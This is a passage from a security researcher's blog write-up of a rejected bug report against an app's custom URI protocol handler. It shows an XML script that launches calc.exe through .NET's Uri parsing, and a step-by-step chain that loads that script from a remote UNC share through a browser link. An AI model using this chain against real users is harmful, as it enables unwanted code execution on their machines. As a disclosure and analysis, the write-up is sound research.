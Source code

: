 [repl-url]: https://dotnetfiddle.net/o1mCnT

This is the main constraint. The string must get converted to a [Uri][uri-docs].
More, this is the [overload with only one parameter][uri-constructor]. The
second parameter is `dontEscape`, deprecated and set to `false` by default.

[uri-constructor]: https://docs.microsoft.com/en-us/dotnet/api/system.uri.-ctor#System_Uri__ctor_System_String_
[uri-docs]: https://docs.microsoft.com/en-us/dotnet/api/system.uri

We do not need to use the `file:///` scheme for local files. We can use the
[Implicit File Path Support][uri-file-path-support] and skip it. This is not
part of the URI specification and it does not matter here (we can pass any
scheme) but, it's a good point to remember in case you see something in the
future. This means all of the following are converted to
`file:///C:/Windows/System32/calc.exe`.

```
C:/Windows/System32/calc.exe
file:C:/Windows/System32/calc.exe
file:/C:/Windows/System32/calc.exe
file://C:/Windows/System32/calc.exe
```
[uri-file-path-support]: https://docs.microsoft.com/en-us/dotnet/api/system.uri?view=net-5.0#implicit-file-path-support

This script will pop calc (we can replace it with any other local executable).

```xml
<MyRoot>
    <BrowserOpen URI="C:/Windows/System32/calc.exe" />
</MyRoot>
```

# RCE: Rejected Code Execution
So far we know we can:

1. Pass command-line switches to the app from the browser.
2. Use a script file to run calc or any other local executable.
3. Pass remote scripts via UNC paths to the app.

This means we can get some code execution.

1. Create a script file like the one above in a remote share (e.g., `\\IP`).
2. Run the app from the browser with these parameters:
    1. `appHandler://-script \\IP\popcalc.xml \\IP\output.txt`
3. User clicks on the link in the browser and allows the app to run.
4. App runs calc.

I have documented how I created a
{{< xref path="/post/2021/2021-05-31-remote-file-share/index.markdown"
    text="public remote file share in the cloud" >}}
to host the remote script. It lets you host files at `\\IP\path\to\file`
using a static IP in an Amazon EC2 machine for less than 5 USD a month.

I submitted this bug but it was rejected because 
**I could run any local executable but couldn't pass parameters**. We cannot
execute remote files by using UNC paths, either. I could also pass schemes like
`ms-calculator://` (pops calc) but I could not find any scheme in Windows that
let me execute an arbitrary command and pass parameters (that would be a pretty
nasty Windows 0day).
~~I will write a separate blog post about my adventures there.~~
I have some drafts that need more research to become a blog post.


[bug1]: https://twitter.com/CryptoGangsta/status/1367762486934446083
[bug2]: https://twitter.com/CryptoGangsta/status/1362799006514966530
[bug3]: https://twitter.com/CryptoGangsta/status/1359058979033284608
[bug4]: https://twitter.com/CryptoGangsta/status/1352818412213309441
[useless-rce-twitter]: https://twitter.com/CryptoGangsta/status/1369844949651361794
[urlprotocolview-nirsoft]: https://www.nirsoft.net/utils/url_protocol_view.html
[rce-gist]: https://gist.github.com/parsiya/f235882ed04c4f881064a12dc7b6be15
[taviso-twitter]: https://twitter.com/taviso
[bug-693]: https://bugs.chromium.org/p/project-zero/issues/detail?id=693
[helpme-interwebz]: https://twitter.com/CryptoGangsta/status/1354612042200608768
[localghost-youtube]: https://youtu.be/Cgl51ZcACLg?t=90
[alesandro-twitter]: https://twitter.com/AlesandroOrtizR
[gesture-twitter]: https://twitter.com/CryptoGangsta/status/1377716233705955330